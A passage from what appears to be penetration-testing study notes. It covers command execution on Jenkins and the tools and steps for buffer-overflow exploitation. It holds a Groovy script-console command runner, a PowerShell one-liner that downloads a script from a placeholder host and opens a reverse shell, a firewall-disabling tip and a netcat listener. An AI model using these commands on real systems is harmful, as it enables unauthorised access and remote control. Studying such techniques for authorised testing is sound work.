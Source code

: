 Note: In the Windows environment, numerous enterprise applications often require either administrative privileges or SYSTEM privileges, presenting significant opportunities for privilege escalation.

#### Jenkins
You can run system commands. There are many ways to do it:
- With plugins installed (from [CRTP](https://www.alteredsecurity.com/adlab))
  - With admin access, go to `http://<jenkins_server>/script` and run the following:
    ```PowerShell
    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = '
    [INSERT COMMAND]'.execute()
    proc.consumeProcessOutput(sout, serr)
    proc.waitForOrKill(1000)
    println "out> $sout err> $serr"
    ```
- If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter: `powershell -c <command>`, or `powershell iex (iwr -UseBasicParsing http://<IP>/Invoke-PowerShellTcp.ps1);Power -Reverse -IPAddress <IP> -Port <PORT>`
  - Disable the firewall or add an exception
- Use a listener like Netcat `nc64.exe -lvp 443`


## Buffer Overflow

**Tools**
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/) + [mona](https://github.com/corelan/mona)
- [Vulnserver](https://thegreycorner.com/vulnserver.html)
  - Note: usually, `<port vulnserver>` is `9999`
- [Kali](https://www.kali.org/)
- See also [Buffer Overflows Made Easy | The Cyber Mentor](https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)
- [mingw-w64](https://www.mingw-w64.org/), a cross-compiler for programs written to be compiled in Windows. With it you can compile them in an OS like Linux
  - Example of usage: `i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`
- See also: [Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep)

**Issues**
- ["Problems attach Immunity to Vulnserver on Windows 10"](https://www.reddit.com/r/hacking/comments/ohg5t0/problems_attach_immunity_to_vulnserver_on_windows/): Don't start vulnserver, start Immunity as Admin, File > Open > vulnserver.exe, push "play".

**Steps to conduct a Buffer Overflow**
1. [Spiking](#spiking)
2. [Fuzzing](#fuzzing)
3. [Finding the Offset](#finding-the-offset)
4. [Overwriting the EIP](#overwriting-the-eip)
5. [Finding bad characters](#finding-bad-characters)
6. [Finding the right module](#finding-the-right-module)
7. [Generating Shellcode](#generating-shellcode)

### Spiking

